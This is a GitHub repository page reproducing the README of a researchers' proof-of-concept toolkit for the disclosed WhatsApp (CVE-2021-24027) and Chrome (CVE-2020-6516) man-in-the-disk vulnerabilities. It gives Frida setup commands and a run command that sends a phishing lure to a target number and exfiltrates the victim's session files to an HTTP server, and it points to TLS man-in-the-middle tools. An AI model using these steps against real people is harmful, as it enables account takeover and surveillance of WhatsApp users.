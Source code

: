 # whatsapp-mitd-mitm

PoC and tools for exploiting CVE-2020-6516 (Chrome) and CVE-2021-24027 (WhatsApp)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/CENSUS](https://github.com/CENSUS) |
| Url      | [https://github.com/CENSUS/whatsapp-mitd-mitm](https://github.com/CENSUS/whatsapp-mitd-mitm)                                               |
| Stars    | 140                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# WhatsApp MitD & MitM

## Introduction

This repository contains PoC code and tools that were developed as part of our
research [01] on remotely exploiting *Man-in-the-Disk* (MitD) vulnerabilities on
WhatsApp for Android. As discussed in our blog post, the code and accompanying
scripts found here, were used to exploit CVE-2020-6516 (Chrome) [02] and
CVE-2021-24027 (WhatsApp) [03].

The structure of this repository is as follows:

* The current directory contains the Python tool that hooks WhatsApp using Frida,
  sends the phishing message carrying the CORS bypass payload and runs an HTTP
  server, where exfiltrated session files from the victim device are sent to.

* **tls12\_psk\_extract/** contains the TLS v1.2 MitM toolset. See **README.md**
  in that directory for more information on how to prepare a MitM environment.

* **watls\_psk\_extract/** contains the TLS v1.3 (WaTLS) MitM toolset. See
  **README.md** in that directory for more information on how to prepare a MitM
  environment.

* **openssl-1.1.1f-patches/** contains OpenSSL 1.1.1f patches required for
  setting up TLS v1.2 and/or TLS v1.3 MitM environments.

* **secrets/** holds a simple shell script and an OpenSSL configuration for
  generating certificates similar to those used by the WhatsApp TLS v1.3
  infrastructure. The generated keys and certificates can be used for both
  TLS v1.2 and v1.3 MitM.

* Last but not least, **misc/** contains various Frida scripts that were used
  for testing and debugging purposes during our research and might be helpful to
  other researchers.


## Usage

To test the PoC you need an Android device running WhatsApp 2.20.206.22 [04].
Even though our code was initially developed for 2.19.355, and so you can find
the corresponding snippets under **frida_scripts/**, that version is nowadays
considered "expired" and won't work.

Before firing up the PoC, it is a good idea to compile as little as possible of
WhatsApp's DEX code. Doing so might proactively help in avoiding issues like
Frida not being able to hook specific methods.

    adb shell
    am force-stop com.whatsapp
    pm compile -f -m space com.whatsapp
    am start com.whatsapp/.Main

Download Frida server and push it on your Android device under **/data/local/tmp**,
leaving the default file name as is. Version 12.8.10 is tested and known to work
well. Feel free to download a more recent one if you prefer to. The PoC will
automatically detect the Frida server binary and will attempt to execute it with
the appropriate command line arguments.

    cd /tmp
    curl -O https://github.com/frida/frida/releases/download/12.8.10/frida-server-12.8.10-android-arm64.xz
    xz -d frida-server-12.8.10-android-arm64.xz
    adb push frida-server-12.8.10-android-arm64 /data/local/tmp

The main logic of the exploit is implemented in **main.py**. Files **adb.py**
and **frida_util.py** are trimmed down versions of tools that we use internally
for various debugging tasks on Android devices.

To run the PoC, attach your Android device on your computer and run the
following command:

    python3 main.py -s ANDROID_SERIAL -a 192.168.1.100 -p 8000 -r \
        images/the_guardian.jpg MOBILE_NUMBER@s.whatsapp.net "Rush for Mediterranean gas"

The command line switches passed to **main.py** are the following:

* `-s` - The serial number of the Android device to use, in case the attacker
  has multiple Android devices attached on her computer.

* `-a` and `-p` - Address and port, respectively, of the HTTP server where the
  exfiltrated sessions will be sent to.

* `-r` - Instructs **main.py** to start the aforementioned HTTP server on the
  local computer. If you don't pass `-r`, make sure you run **server.py** on the
  host specified by `-a` and `-p`.

Positional arguments are the following:

* **images/guardian.jpg** - A JPG image that will be used as a fake message
  preview, in order to lure the victim into clicking on it.

* **MOBILE_NUMBER@s.whatsapp.net** - The victim's mobile phone number in WhatsApp
  format. This is usually the country prefix followed by the mobile number. For
  example, Greek numbers (+30) look like `301234567890@s.whatsapp.net`.

* **"Rush for Mediterranean gas"** - An arbitrary string to be used as the
  message caption.

For a real life usage example, have a look at our blog post, and more specifically
at the demonstration videos.


## References

[01] <https://www.census-labs.com/news/2021/04/14/whatsapp-mitd-remote-exploitation-CVE-2021-24027/>

[02] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-6516>

[03] <https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24027>

[04] <https://www.apkmirror.com/apk/whatsapp-inc/whatsapp/whatsapp-2-20-206-22-release/whatsapp-messenger-2-20-206-22-android-apk-download/>




## Get the content

```
git clone https://github.com/CENSUS/whatsapp-mitd-mitm
cd whatsapp-mitd-mitm
```

{% embed url="https://github.com/CENSUS/whatsapp-mitd-mitm" %}

<figure><img src="https://avatars.githubusercontent.com/u/11769276?v=4" alt=""><figcaption><p>CENSUS</p></figcaption></figure>
